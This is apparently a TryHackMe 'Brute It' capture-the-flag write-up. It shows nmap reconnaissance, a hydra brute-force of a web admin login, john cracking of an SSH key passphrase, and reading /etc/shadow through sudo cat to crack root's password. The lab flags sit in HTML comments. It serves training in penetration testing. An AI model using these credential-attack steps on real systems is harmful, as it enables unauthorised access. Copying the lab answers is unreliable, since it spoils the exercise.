



> # Brute It

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Reconnaissance](#task-2---reconnaissance)
    - [Task 3 - Getting a shell](#task-3---getting-a-shell)
    - [Task 4 - Privilege Escalation](#task-4---privilege-escalation)

<!-- /TOC -->

## Task 2 - Reconnaissance

Scan the target with `nmap -Pn -A -O`
```
    sudo nmap -Pn 10.10.141.52 -A -O
    [sudo] password for kali: 
    Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-24 22:53 EST
    Nmap scan report for 10.10.141.52
    Host is up (0.25s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
    |   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
    |_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.92%E=4%D=1/24%OT=22%CT=1%CU=42803%PV=Y%DS=2%DC=T%G=Y%TM=63D0A7D
    OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ
    OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
    OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=
    OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSN
    OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
    OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
    OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
    OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
    OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE (using port 143/tcp)
    HOP RTT       ADDRESS
    1   208.50 ms 10.8.0.1
    2   262.57 ms 10.10.141.52

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 37.70 seconds
```
1. How many ports are open?<br>
    **Answer:** 2

1. What version of SSH is running?<br>
    From the above result.<br>
    **Answer:** OpenSSH 7.6p1

1. What version of Apache is running?<br>
    **Answer:** 2.4.29

1. Which Linux distribution is running?<br>
    **Answer:** Ubuntu

1. What is the hidden directory?<br>
    Use `dirb` tool with common.txt in Kali Linux.<br>
    <br>
    **Answer:** /admin

## Task 3 - Getting a shell
1. 
    Use `curl` to get source of this admin page, you will see the username is `admin`.<br>
    ```html
    curl http://10.10.141.52/admin/            

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link rel="stylesheet" href="styles.css">
        <title>Admin Login Page</title>
    </head>
    <body>
        <div class="main">
            <form action="" method="POST">
                <h1>LOGIN</h1>

                
                <label>USERNAME</label>
                <input type="text" name="user">

                <label>PASSWORD</label>
                <input type="password" name="pass">

                <button type="submit">LOGIN</button>
            </form>
        </div>

        <!-- Hey john, if you do not remember, the username is admin -->
    </body>
    </html>
    ```
    Next, use `hydra` and `rockyou.txt` to brute force password for admin.
    ```
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.141.52 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" 
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-24 23:50:18
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.141.52:80/admin/:user=^USER^&pass=^PASS^:F=invalid
    [80][http-post-form] host: 10.10.141.52   login: admin   password: xavier
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-24 23:50:55
    ```
    **Answer:** admin:xavier

1. What is John's RSA Private Key passphrase?<br>
    After login on browser, you will see the web flag and link to `id_rsa`, download this rsa and use `ssh2join` to convert it into `join` format.<br>
    Use `join` to retrieve passphrase
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    rockinroll       (?)     
    1g 0:00:00:00 DONE (2023-01-25 00:07) 11.11g/s 806755p/s 806755c/s 806755C/s rubicon..rock14
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 

    ```
    **Answer:** rockinroll

1. user.txt
    First, change permission of `id_rsa` to 600 with `chmod`.<br>
    Login as `john` using id_rsa and the passphrase above.<br>
    <br>
    <!-- THM{a_password_is_not_a_barrier} -->
    **Answer:** THM{\<redacted>}
    
1. Web flag
    <!-- THM{brut3_f0rce_is_e4sy} -->
    **Answer:** THM{\<redacted>}

## Task 4 - Privilege Escalation
1. What is the root's password?<br>
    With `sudo -l`, user `john` can use `cat` command on root's files without root's password.<br>
    ```
    sudo -l
    Matching Defaults entries for john on bruteit:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on bruteit:
        (root) NOPASSWD: /bin/cat
    ```
    At here, we could use `cat` to read /root/root.txt to get the root flag on the target, but I will perform privillege escalation to list /root folder first.<br>

    Use `cat /etc/shadow` to read the root's password hash, then use `john` to crack this hash.<br>
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt root
    Using default input encoding: UTF-8
    Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    football         (root)     
    1g 0:00:00:00 DONE (2023-01-25 00:54) 5.263g/s 673.6p/s 673.6c/s 673.6C/s 123456..diamond
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    **Answer:** football

1. root.txt
    Change terminal to root and retrive the flag.<br>
    <br>    
    <!-- THM{pr1v1l3g3_3sc4l4t10n} -->
    **Answer:** THM{\<redacted>}

